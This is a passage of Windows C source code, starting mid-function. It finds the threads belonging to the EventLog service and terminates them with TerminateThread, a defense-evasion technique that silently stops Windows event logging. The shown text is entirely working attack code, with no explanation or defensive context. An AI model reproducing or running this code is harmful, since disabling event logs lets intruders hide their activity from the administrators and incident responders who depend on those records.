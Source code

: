 ```text
    tagQuery.processId = processId;
    tagQuery.serviceTag = (ULONG)hTag;
    I_QueryTagInformation(NULL, ServiceNameFromTagInformation, &tagQuery);
    if (tagQuery.pBuffer != 0)
    {
        StringCbCopy(Buffer, MAX_PATH, (PCWSTR)tagQuery.pBuffer);
    }
    else
    {

        CloseHandle(hProcess);
        CloseHandle(hThread);
        FreeLibrary(advapi32);
        return 0;
    }

    if (!wcscmp(Buffer, L"EventLog"))
    {
        TerminateThread(hThread,0);
        wprintf((WCHAR*)L"%d %s\n", threadId, Buffer);
    }
    LocalFree(tagQuery.pBuffer);
    CloseHandle(hProcess);
    CloseHandle(hThread);
    FreeLibrary(advapi32);

    return 1;
}

int main() {
    DWORD dwPid;

    dwPid = GetEventLogProcessId();

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (INVALID_HANDLE_VALUE == hSnapshot)
    {
        return 0;
    }
    THREADENTRY32 te32 = { 0 };
    te32.dwSize = sizeof(THREADENTRY32);

    BOOL bRet = Thread32First(hSnapshot, &te32);
    while (bRet)
    {
        if (te32.th32OwnerProcessID == dwPid)
        {
            CheckAndFuckEventProcess(dwPid, te32.th32ThreadID, NULL);
        }


        bRet = Thread32Next(hSnapshot, &te32);
    }
    CloseHandle(hSnapshot);
    return 0;

}
```
